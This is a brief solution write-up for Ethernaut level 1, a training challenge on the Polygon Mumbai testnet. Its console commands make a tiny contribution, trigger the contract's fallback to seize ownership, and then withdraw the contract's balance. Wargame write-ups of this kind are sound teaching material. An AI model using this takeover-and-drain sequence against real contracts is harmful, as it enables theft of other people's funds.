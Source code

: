 # Hello Ethernaut

## Level 1

https://ethernaut.openzeppelin.com/level/0x2a24869323C0B13Dff24E196Ba072dC790D52479

## Solution:

Interacting with the contract

Network: Polygon Mumbai

Instance: 0xda57daF1c08A0535E6ef5D60105ECeC369a4580A

Tx: https://mumbai.polygonscan.com/tx/0xe30925346ea5bde1a0bd5c1ff769dc26fb07a591194b9fc8c00de6a3339f5821

## Steps:

> await contract.owner()

0x2a24869323C0B13Dff24E196Ba072dC790D52479

> let bal = await contract.contributions('0x2a24869323C0B13Dff24E196Ba072dC790D52479')

> bal.toString()

'1000000000000000000000'

> await contract.contribute({value: toWei("0.00000000001","ether")})

> await contract.sendTransaction({value: toWei("0.00001","ether")})

> await contract.owner()

'0xdbaE4296E3Dd9d3f31a71BA7afa1735D0BaF92F6'

> player

'0xdbaE4296E3Dd9d3f31a71BA7afa1735D0BaF92F6'

> await contract.withdraw()
